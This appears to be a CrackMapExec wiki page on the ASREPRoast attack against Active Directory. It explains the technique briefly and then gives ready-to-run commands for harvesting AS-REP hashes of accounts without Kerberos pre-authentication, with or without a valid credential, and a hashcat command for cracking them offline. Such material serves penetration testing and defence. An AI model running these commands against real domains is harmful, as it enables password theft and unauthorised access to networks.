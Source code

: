 ```yaml
---
description: >-
  Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos
  pre-authentication required
---
```


# ASREPRoast



{% hint style="success" %}
You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain
{% endhint %}

### Without authentication

> The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS\_REQ request to the KDC on behalf of any of those users, and receive an AS\_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

```
cme ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
```

Using a wordlist, you can find wordlists of username here

```
cme ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

{% hint style="info" %}
Set the password value to '' to perform the test without authentication&#x20;
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### With authentication

If you have one valid credential on the domain, you can retrieve all the users and hashs where the  Kerberos pre-authentication is not required

```
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```

{% hint style="info" %}
Use option **kdcHost** when the domain name resolution fail&#x20;

```
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name
```
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Cracking with hashcat&#x20;

To crack hashes on the file output.txt with hashcat use the following options:

```
hashcat -a 0 -m 18200 output.txt wordlist
```
